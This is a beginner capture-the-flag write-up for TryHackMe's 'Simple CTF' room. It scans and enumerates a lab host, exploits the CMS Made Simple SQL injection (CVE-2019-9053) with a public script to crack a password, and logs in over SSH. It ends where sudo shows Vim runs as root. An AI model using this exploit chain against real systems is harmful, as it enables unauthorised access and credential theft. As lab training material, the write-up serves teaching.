 # [Simple CTF](https://tryhackme.com/room/easyctf)

> Beginner level ctf

## Scanning

We will start a nmap scan

```
nmap -A -T4 10.10.232.89
```

![image](https://user-images.githubusercontent.com/90561566/182623084-843a068a-daf3-4eed-8107-583b7fa3ed8b.png)

We found 2 services running below port 1000, namely FTP (21) and HTTP (80)

We can see that ssh is running on the higher port (2222)

## Enumeration

I just view the default web page and see nothing, so let's use gobuster to find something

```
gobuster dir -u http://10.10.232.89/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/182626562-6e7b1b36-e22b-4756-8c83-979d6b05fb34.png)

let's see /robots.txt file

![image](https://user-images.githubusercontent.com/90561566/182626985-f3fcb05b-ba8f-42f4-955c-bb6f12c5c6dc.png)

and /simple page

![image](https://user-images.githubusercontent.com/90561566/182627264-f181bf7b-db22-462e-8875-e866f6b34307.png)

at the end of page, i see its version

![image](https://user-images.githubusercontent.com/90561566/182627984-c7973e00-78cb-4207-beb5-1a7b89543498.png)

```
searchsploit cms made simple 2.2.8
```

![image](https://user-images.githubusercontent.com/90561566/182628708-3a49d796-a2cb-43a8-8f2f-30d0483c055e.png)

We can download the exploit using `searchsploit -m 46635.py`

![image](https://user-images.githubusercontent.com/90561566/182629731-a154a783-6f13-4761-9728-05ca4113bc12.png)

The CVE is CVE-2019-9053 and vulnerability type is SQLi

## Exploitation

On the script, i see some python library to install with pip and 3 parameters to use

![image](https://user-images.githubusercontent.com/90561566/182630976-ebbdf050-d62c-4aeb-8365-8d75ffe25159.png)

```
python2.7 46635.py -u http://10.10.206.254/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

wait a while, you will find the password

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

Now try to connect ssh server with "mitch" user and a "secret" password

```
ssh mitch@10.10.206.254 -p 2222
```

and we found the user.txt flag

![image](https://user-images.githubusercontent.com/90561566/182776632-dc1958c4-d406-4d1f-8279-b481900253d5.png)

let's see what other is under /home directory

```
$ ls /home
mitch  sunbath
```

## Privilege Escalation

```
sudo -l -l
```

![image](https://user-images.githubusercontent.com/90561566/182777513-bfb88323-27e6-4f0f-8c77-89e4701fab1a.png)

Only Vim can be run as root






